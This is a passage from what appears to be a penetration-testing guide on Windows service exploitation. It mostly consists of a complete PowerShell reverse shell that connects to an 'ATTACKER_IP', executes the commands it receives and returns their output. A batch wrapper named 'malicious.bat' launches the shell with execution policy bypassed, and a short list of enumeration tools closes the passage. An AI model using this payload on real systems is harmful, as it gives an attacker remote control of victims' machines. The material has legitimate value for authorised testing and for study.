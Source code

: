 ## Alternative Payload Generation (Without msfvenom)

If you don't have access to msfvenom, you can create a simple service executable with C# or PowerShell:

```powershell
# PowerShell reverse shell (save as .ps1)
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",PORT);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();

# Create a .bat wrapper to call PowerShell
echo powershell.exe -ExecutionPolicy Bypass -File C:\path\to\reverse-shell.ps1 > malicious.bat
```

## Additional Tools For Enumeration

- **PowerUp.ps1**: `Invoke-AllChecks` identifies many common service vulnerabilities
- **WinPEAS**: Checks for service misconfigurations automatically
- **ServicePermissionsChecker.ps1**: Custom PowerShell script to check service permissions 